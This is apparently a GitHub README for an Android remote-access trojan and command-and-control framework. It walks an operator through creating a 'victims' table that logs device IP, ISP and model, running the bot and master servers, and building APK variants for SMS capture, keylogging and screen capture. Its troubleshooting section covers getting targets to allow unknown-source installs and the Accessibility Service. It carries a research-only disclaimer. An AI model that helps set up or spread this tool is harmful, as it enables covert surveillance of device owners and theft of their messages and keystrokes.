


# Android Trojan 2.0 - Advanced C2 Framework

<div align="center">


**Professional Command & Control Framework for Android Devices**

[Features](#features) • [Installation](#installation) • [Usage](#usage) • [Screenshots](#screenshots) • [Disclaimer](#disclaimer)

</div>

---

## 🎯 Overview

Android Trojan 2.0 - Modified is a sophisticated Command & Control (C2) framework designed for security research and penetration testing. It features a modern web-based dashboard with real-time device monitoring, customizable APK generation, and multi-device management capabilities.

> **Original Repository:** [shivamsuyal/Android-Trojan-2.0](https://github.com/shivamsuyal/Android-Trojan-2.0)

---

## 📋 Requirements

### Server
- Node.js >= 14.0.0
- npm >= 6.0.0

### Android Build
- Android Studio or Gradle
- JDK 8 or higher
- Android SDK (API 21+)

### Target Device
- Android 5.0 (Lollipop) or higher
- Internet connection

---

## 🛠️ Installation

### 1. Clone Repository

```bash
git clone https://github.com/Android-App-Security/Android-Trojan-2.0-Modified.git
cd Android-Trojan-2.0-Modified
```

### 2. Setup Supabase Database

This project uses Supabase for authentication and device tracking.

#### Create Supabase Account

1. Go to [Supabase](https://supabase.com/)
2. Create a new account (free tier is sufficient)
3. Create a new project

#### Get Supabase Credentials

1. In your Supabase project dashboard, go to **Settings** → **API**
2. Copy your **Project URL** (looks like: `https://xxxxx.supabase.co`)
3. Copy your **anon/public** API key

#### Create Database Tables

1. In Supabase, go to **SQL Editor**
2. Run the following SQL commands:

```sql
-- Victims Table (stores connected device information)
CREATE TABLE public.victims (
  "ID" character varying NOT NULL,
  "Country" character varying NULL,
  "ISP" character varying NULL,
  "IP" character varying NULL,
  "Brand" character varying NULL,
  "Model" character varying NULL,
  "Manufacture" character varying NULL,
  CONSTRAINT victims_pkey PRIMARY KEY ("ID")
) TABLESPACE pg_default;

-- Active User Table (stores login credentials)
CREATE TABLE public.activeuser (
  id BIGSERIAL PRIMARY KEY,
  username character varying NULL,
  password character varying NULL,
  name character varying NULL
) TABLESPACE pg_default;
```

#### Add Login Credentials

1. In Supabase, go to **Table Editor**
2. Select the `activeuser` table
3. Click **Insert** → **Insert row**
4. Add your credentials:
   - **username**: `admin` (or your preferred username)
   - **password**: `password123` (or your preferred password)
   - **name**: `Administrator` (or your name)
5. Click **Save**

> **Note:** Passwords are stored in plain text for simplicity. For production use, implement proper password hashing.

### 3. Configure Environment

Create a `.env` file in the project root:

```env
# Supabase Configuration
SUPERBASE_URL=https://your-project.supabase.co
SUPERBASE_KEY=your-anon-public-key-here

# Server Ports
PORT=4001
BOT_PORT=4000
```

Replace `your-project.supabase.co` and `your-anon-public-key-here` with your actual Supabase credentials.

### 4. Install Dependencies

```bash
npm install
```

### 5. Build APK Variants

You can either use pre-built APKs or build them yourself:

#### Option A: Build APKs (Recommended)

```bash
cd mobile
./gradlew assembleSmsRelease assembleKeyloggerRelease assembleScreenRelease assembleSmsKeyloggerRelease assembleSmsScreenRelease assembleKeyloggerScreenRelease assembleFullRelease
cd ..
./sign-apks.sh
```

This will create signed APKs in the `output/` directory.

#### Option B: Use Build Script

```bash
./build-all-apks.sh
./sign-apks.sh
```

> **Note:** Building APKs requires Android SDK and Gradle to be installed.

---

## 🎮 Usage

### Start the Server

```bash
npm start
```

The server will start on:
- **Bot Network:** `http://0.0.0.0:4000`
- **Master Network:** `http://0.0.0.0:4001`

### Access Dashboard

1. Navigate to `http://localhost:4001/login`
2. Login with your credentials (configured in Supabase)
3. Access the dashboard at `http://localhost:4001/dashboard`

---

## 🎨 Screenshots


### 📊 Dashboard Overview
Multi-device management dashboard with HTB theme, real-time device monitoring, and comprehensive control panels.



---


### 📱 Screen Share Popup
Interactive popup modal for screen monitoring - background remains accessible while viewing live screen feed.



---


## 🐛 Troubleshooting

### APK Installation Failed
- Ensure debug keystore is properly configured
- Check Android version compatibility (API 21+)
- Enable "Install from Unknown Sources"

### Connection Issues
- Verify server IP is correct
- Check firewall settings
- Ensure both devices are on the same network
- Restart the server and reinstall APK

### Permission Denied
- Grant all requested permissions
- Enable Accessibility Service (for keylogger/screen variants)
- Allow screen recording (for screen variants)

---


## 📄 License

This project is for **educational and research purposes only**. The authors are not responsible for any misuse or damage caused by this program.

---

## ⚠️ Disclaimer

**IMPORTANT:** This tool is designed for security research, penetration testing, and educational purposes only. Unauthorized access to devices is illegal and unethical.

- ✅ **Legal Use:** Authorized penetration testing, security research, educational purposes
- ❌ **Illegal Use:** Unauthorized surveillance, data theft, malicious activities

By using this software, you agree to use it responsibly and in compliance with all applicable laws.

---


<div align="center">

**Made with ❤️ for Security Research**

⭐ Star this repo if you find it useful!

</div>
